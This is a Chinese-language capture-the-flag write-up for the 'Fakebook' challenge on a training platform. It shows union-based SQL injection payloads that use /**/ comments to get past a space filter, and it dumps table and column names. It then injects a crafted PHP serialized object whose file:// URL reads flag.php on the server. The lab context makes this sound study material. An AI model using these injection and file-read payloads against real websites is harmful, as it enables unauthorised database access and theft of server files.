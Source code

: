 ## 0x01 Fakebook

本题考点为SQL注入和SSRF，首先随意注册一个账户，进行登录后发现网址为

```
http://125afc2e-8d0c-4333-9d75-14d7fa2d63f1.node3.buuoj.cn/view.php?no=1
```

推断no=1为可注入点

进行注入后发现屏蔽空格，将空格换为`/**/`进行绕过屏蔽字，构造payload完成SQL注入获取内部的信息

Payload：

```
no=1 order by 4#  //发现order by 5时出现报错，推断有四列
no=0/**/union/**/select 1,2,3,4#  //通过报错页面得知2有回显
no=0/**/union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()#
                //爆表名发现有一个users表
no=0/**/union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'#
                //爆字段名发现username、passwd和data，username和passwd没有发现flag，data中发现一个反序列化对象
no=0/**/union/**/select 1,group_concat(data),3,4 from users#  //爆出data的值
```

发现data值为

```
O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:1;s:4:"blog";s:9:"1.1.1.com";}
```

同时使用dirsearch扫描目录发现`user.php.bak`![](/assets/捕鱼.png)下载`user.php.bak`发现定义可反序列化类UserInfo

```
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

发现\`function get函数中存在exec执行函数，但安全，因而将重点转向于curl\_getinfo\(\)函数。

发现可以采用file://伪协议进行文件读取，并且已知flag.php和view.php均位于/var/www/html/目录下，故构造payload：

```
$a = new UserInfo('1',2,'file:///var/www/html/flag.php');
```

获取反序列化字符串，得到

```
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```

将反序列化字符串放入url中构造payload：

```
no=0/**/union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:2;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'#
```

得到源码中的flag

```
flag{2a8d59d8-c775-4a98-b135-c51947d2daf4}
```



